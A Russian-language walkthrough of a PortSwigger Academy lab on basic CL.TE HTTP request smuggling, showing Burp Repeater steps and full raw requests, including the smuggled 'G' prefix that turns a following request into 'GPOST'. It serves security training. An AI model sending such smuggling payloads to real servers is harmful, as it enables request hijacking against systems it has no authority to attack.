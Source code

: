 Перейдем на уязвимый ресурс

Зайдем в `Proxy` -> `HTTP history` и отправим в `Repeater` запрос к корневой странице

Далее в панели `Inspector` изменим версию HTTP запросов на `HTTP 1` версии

и удалим служебные заголовки, которые нам не нужны 
Тем самым, оставив только 
```
POST / HTTP/1.1
Host: 0a4300c603b8a92a81a820d9006f0025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/1.png)

Так же выключим `Update content length` и включим `видимые переносы строк`, чтобы нам было легче

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/2.png)

Далее воспользуемся данной картинкой для выяснения, какой уязвимостью может обладать данный ресурс
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/3.png)

Сконфигурируем запрос
```
POST / HTTP/1.1
Host: 0a4300c603b8a92a81a820d9006f0025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Немного подождем, и получим ответ, что у нас - таймаут
Отлично, благодаря пикче мы узнали, что там происходит `CL.TE` уязвимость


Это происходит потому, что сервер обработал 
```
3
abc
```

а вот Х до бэкенда не дошел, так как `Content-length` составляет меньше, чем найденная последовательность
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/4.png)

Далее, согласно пикче подтвердим CL.TE уязвимости запросм

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/5.png)
```
POST / HTTP/1.1
Host: 0a4300c603b8a92a81a820d9006f0025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/6.png)

Далее отправим уже наш вредоносный запрос
```
POST / HTTP/1.1
Host: 0a4300c603b8a92a81a820d9006f0025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/7.png)

И сконфигурируем второй запрос
```
POST / HTTP/2
Host: 0a4300c603b8a92a81a820d9006f0025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability/pics%20for%20walkthrough/8.png)

Тем самым, после первого запроса у нас не передалось `G`

и оно передалось во второй запрос, тем самым сделав его 
```
GPOST / HTTP/2
Host: 0a4300c603b8a92a81a820d9006f0025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar
```

После чего получим уведомление об успешно выполненной лабораторной работе и надпись 
`"Unrecognized method GPOST"`
